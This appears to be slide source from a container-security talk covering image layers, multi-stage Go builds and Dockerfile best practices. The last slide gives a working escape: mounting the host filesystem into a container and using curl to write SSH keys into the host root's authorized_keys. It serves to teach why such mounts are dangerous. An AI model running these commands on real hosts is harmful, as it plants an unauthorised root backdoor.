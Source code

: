 💡 Understand and leverage layer caching for image size and performance

What does it look like when we `dive` into the image? (Spoiler: it's huge!)

Let's do better...

---
# Multi-stage builds

💡 Idea: separate build-time from run-time!
```docker
ARG GOLANG_VERSION=1.19
FROM golang:${GOLANG_VERSION} as builder # Start a build container stage
COPY go.mod go.sum ./
RUN go mod download
COPY hello.go ./
RUN CGO_ENABLED=0 go build hello.go      # Compile with static dependencies

FROM scratch                             # Start a run-time stage
COPY --from=builder /hello /             # Bring in the built binary
CMD ["/hello"]
```

Ref: https://docs.docker.com/build/building/multi-stage/

---
# Dockerfile best practices

- Use a secure or "golden" base image
- Use multi-stage builds
- Non-root `USER`
- Don't mount sensitive directories
- Don't include sensitive data in the image artifact (even `ARG`)
- Avoid `setuid` binaries
- Include _minimally_ everything that your container needs

Ref: [Container Security][liz] (Rice 2020)

---
# Example: root + host volume mount path

How do you escalate to root? 😈
```
docker run -it --rm -v /:/host ubuntu  # Mount a sensitive directory
id                                     # You're root... in the container
cd /host/root                          # Enter the *host's* filesystem

# Add your keys to the root login
curl https://github.com/allanbreyes.keys > ./.ssh/authorized_keys
```


[fc]: https://www.amazon.science/publications/firecracker-lightweight-virtualization-for-serverless-applications
[ivan]: https://iximiuz.com/en/posts/containers-distroless-images/
[julia]: https://wizardzines.com/zines/containers/
[liz]: https://www.oreilly.com/library/view/container-security/9781492056690/
[serge]: https://zserge.com/posts/containers/